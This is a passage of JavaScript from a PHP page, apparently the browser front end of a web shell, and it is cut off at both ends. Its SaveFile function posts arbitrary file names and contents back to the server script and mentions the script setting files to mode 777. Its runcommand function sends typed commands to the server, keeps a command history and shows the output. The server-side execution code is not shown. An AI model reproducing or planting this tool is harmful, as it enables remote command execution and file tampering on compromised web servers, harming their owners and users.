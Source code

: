 	 http_request = new XMLHttpRequest();
	 if (http_request.overrideMimeType) {
		http_request.overrideMimeType('text/html');
	 }
  } else if (window.ActiveXObject) {
	 try {
		http_request = new ActiveXObject("Msxml2.XMLHTTP");
	 } catch (e) {
		try {
		   http_request = new ActiveXObject("Microsoft.XMLHTTP");
		} catch (e) {}
	 }
  }
  if (!http_request) {
	 alert('Cannot create XMLHTTP instance');
	 return false;
  }


  http_request.open('POST', url, true);
  http_request.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  http_request.setRequestHeader("Content-length", parameters.length);
  http_request.setRequestHeader("Connection", "close");
  http_request.send(parameters);
}


function SaveFile()
{
var poststr = "filetosave=" + encodeURI( document.saveform.filetosave.value ) +
                    "&filecontent=" + encodeURI( document.getElementById("area1").value );
makePOSTRequest('<?php print $ThisFile; ?>?savefile', poststr);
document.getElementById('output').innerHTML = document.getElementById('output').innerHTML + "<br><b>Saved! If it didn't save, you'll need to chmod the file to 777 yourself,<br> however the script tried to chmod it automaticly.";
}

function runcommand(urltoopen,action,contenttosend){
cmdhistory = "<br>&nbsp;<i style=\"cursor:crosshair\" onclick=\"document.cmdform.command.value='" + urltoopen + "'\">" + urltoopen + "</i> " + cmdhistory;
document.getElementById('history').innerHTML = cmdhistory;
if(urltoopen == "clear")
{
ClearScreen();
}
    var ajaxRequest;
    try{
        ajaxRequest = new XMLHttpRequest();
    } catch (e){
        try{
            ajaxRequest = new ActiveXObject("Msxml2.XMLHTTP");
        } catch (e) {
            try{
                ajaxRequest = new ActiveXObject("Microsoft.XMLHTTP");
            } catch (e){
                alert("Wicked error, nothing we can do about it...");
                return false;
            }
        }
    }
    ajaxRequest.onreadystatechange = function(){
        if(ajaxRequest.readyState == 4){
        outputcmd = "<pre>"  + outputcmd + ajaxRequest.responseText +"</pre>";
            document.getElementById('output').innerHTML = outputcmd;
            var objDiv = document.getElementById("output");
			objDiv.scrollTop = objDiv.scrollHeight;